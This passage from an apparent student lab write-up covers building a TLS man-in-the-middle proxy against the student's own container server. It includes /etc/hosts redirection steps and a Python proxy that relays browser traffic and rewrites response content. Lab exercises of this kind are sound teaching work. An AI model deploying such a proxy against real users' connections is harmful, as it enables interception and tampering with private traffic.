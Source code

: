 ```python3
        print("TLS connection fails")
        continue
```

- Rerun `server.py`.
- Open the browser and test all the domains above.

# Task 3: A Simple HTTPS Proxy

- Add the following entry to `/etc/hosts` in the Host VM. Comment out the other ones added before.

```
10.9.0.143      www.pinto2022.com
```

This simulates the existence of a proxy because the traffic for `www.pinto2022.com` will be redirected through `10.9.0.143`.

- Add `nameserver   8.8.8.8` to the `/etc/resolv.conf` in the **proxy** container.

- **Launch the MITM attack against your own server.**
  - Add `10.9.0.43  www.pinto2022.com` to the `/etc/hosts/` of the **proxy** container.
  
  - Run `server.py` in the server container, and `proxy.py` in the proxy container.
  - Type `www.pinto2022.com` in the browser.
  
  - `proxy.py`
  
```python3
#!/usr/bin/env python3

import socket
import ssl
import pprint
import threading

def process_request(ssock_for_browser):
    hostname = "www.pinto2022.com"

    # Make a connection to the real server
    context_client = ssl.SSLContext(ssl.PROTOCOL_TLS_CLIENT)  # For Ubuntu 20.04 VM
    # context = ssl.SSLContext(ssl.PROTOCOL_TLSv1_2)      # For Ubuntu 16.04 VM
    
    cadir = './client-certs'
    context_client.load_verify_locations(capath=cadir)
    context_client.verify_mode = ssl.CERT_REQUIRED
    context_client.check_hostname = True
    sock_for_server = socket.create_connection((hostname, 443))
    ssock_for_server = context_client.wrap_socket(
        sock_for_server,
        server_hostname=hostname,
        do_handshake_on_connect=False
    )
    
    ssock_for_server.do_handshake() 
    request = ssock_for_browser.recv(2048)
    pprint.pprint("Request: {}".format(request))
    if request:
        # Forward request to server
        ssock_for_server.sendall(request)

        # Get response from server, and forward it to browser
        response = ssock_for_server.recv(2048)
        response = response.replace(b"Bank32", b"FEUP22")
        while response:
            ssock_for_browser.sendall(response) # Forward to browser
```